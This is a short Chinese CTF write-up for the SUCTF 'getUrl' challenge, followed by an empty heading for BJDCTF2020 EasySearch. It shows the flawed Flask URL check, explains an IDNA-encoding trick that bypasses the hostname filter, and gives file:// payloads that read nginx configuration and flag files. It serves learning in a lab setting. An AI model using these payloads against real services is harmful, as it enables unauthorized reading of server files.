 老样子，ctrl U自动整理代码

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
        
```

特殊字符经过`inda`编码再`utf-8`解码可以出来一些字符组合

要绕过前两个`if`，匹配第三个`if`，将特殊字符整进去，解码后能拼成要检测的值

常用nginx路径:

```php
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf

```

要求跑出来经过inda编码再utf-8解码之后`==c`或者其他`suctf.cc`中的字符也行

脚本参见博客

`file://suctf.cℂ/../../../../..//usr/local/nginx/conf/nginx.conf`
`file://suctf.cℂ/../../../../..//usr/fffffflag`
或者不用`../`也行

========================================================

# [BJDCTF2020]EasySearch
>[参考博客](https://blog.csdn.net/Kracxi/article/details/122933015)

